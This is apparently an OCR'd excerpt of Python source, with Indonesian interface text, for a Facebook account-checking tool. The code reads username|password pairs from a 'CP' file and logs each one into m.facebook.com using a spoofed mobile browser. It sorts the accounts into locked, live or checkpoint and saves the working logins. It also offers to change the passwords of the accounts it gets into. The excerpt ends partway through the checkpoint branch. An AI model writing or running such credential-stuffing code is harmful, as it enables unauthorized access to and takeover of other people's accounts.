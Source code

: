 def opsi():
	CP = ("CP/")
	romi = input("%s%s%s\033[0mNama file %s> %s"%(U,til,O,M,K))
	if romi == "":
		print("%s%s\033[0Misi Yang Benar "%(M,til));jeda(2)
		opsi()
	try:
		file_cp = open(CP+romi, "r").readlines()
	except IOError:
		exit("\n%s%s\033[0mnama file %s\033[0m tidak tersedia"%(M,til,romi))
	jalan("%s%s%s\033[0mMode Pesawatkan Terlebih Dahulu 5 Detik "%(U,til,O))
	pw=input("\n%s%s%s\033[0mUbah Sandi Pada Akun One Tab? y/t %s> %s"%(U,til,O,M,K))
	if pw in['y','Y']:
		ubah_pass.append("ubah_sandi")
		pw2 = input("%s%s%s\033[0mMasukan Sandi %s> %s"%(U,til,O,M,K))
		if len(pw2) <= 5:
			print("%s%s Sandi Minimal 6 Karakter "%(M,til))
		else:
			pwbaru.append(pw2)
	print ("%s%s%s\033[0mTotal Akun %s: %s%s "%(U,til,O,M,K,str(len(file_cp))))
	nomor = 0
	for fb in file_cp:
		akun = fb.replace("\n","")
		ngecek  = akun.split("|")
		nomor+=1
		print("\n%s%s.%s\033[0mLogin Akun %s> %s%s"%(H,str(nomor),O,M,K,akun.replace(" *--> ","")));jeda(0.07)
		try:
			mengecek(ngecek[0].replace("",""), ngecek[1])
		except requests.exceptions.ConnectionError:
			continue
	print("\n%s%s%s\033[0mSelesai Mengecek Akun"%(U,til,O));jeda(0.07)
	input('%s%s%s[%s Enter%s ]'%(U,til,O,U,O))
	back()
	
data = {}
data2 = {}

def mengecek(user,pw):
	global loop,ubah_pass,pwbaru
	session=requests.Session()
	url = "https://m.facebook.com"
	session.headers.update({"Host":"m.facebook.com","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9","accept-encoding":"gzip, deflate","accept-language":"id-ID,id;q=0.9","referer":"https://mbasic.facebook.com/","user-agent":"Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]"})
	soup=bs4.BeautifulSoup(session.get(url+"/login/?next&ref=dbl&fl&refid=8").text,"html.parser")
	link=soup.find("form",{"method":"post"})
	for x in soup("input"):
		data.update({x.get("name"):x.get("value")})
	data.update({"email":user,"pass":pw})
	urlPost=session.post(url+link.get("action"),data=data)
	response=bs4.BeautifulSoup(urlPost.text, "html.parser")
	if "c_user" in session.cookies.get_dict():
		if "Akun Anda Dikunci" in urlPost.text:
			print("\r%s%s\033[0m Akun Terkunci Sesi New"%(M,til))
		else:
			print("\r%s%s\033[0m Akun Tidak Checkpoint, Silahkan Anda Login "%(til,H))
			open('OK/OK-%s.txt'%(waktu), 'a').write(" %s|%s\n" % (user,pw))
	elif "checkpoint" in session.cookies.get_dict():
		coki = (";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
		title=re.findall("\<title>(.*?)<\/title>",str(response))